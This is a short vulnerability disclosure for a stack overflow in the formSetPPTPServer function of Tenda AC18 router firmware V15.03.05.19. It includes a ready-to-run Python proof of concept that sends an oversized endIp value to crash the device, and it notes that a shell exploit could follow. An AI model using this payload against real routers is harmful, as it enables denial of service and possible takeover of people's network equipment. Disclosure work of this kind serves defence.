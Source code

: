 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in formSetPPTPServer  function.         The contents obtained by the endIp parameter are passed to v19, and then the contents matched by v19  and put into the v9 without size checking, resulting in a stack overflow.
![](img/2.png#center)
<hr/>

![](img/3.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/SetPptpServerCfg'

headers = {"Cookie": "password=You cookie"}
data = {
    'serverEn': 2,
    'endIp': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
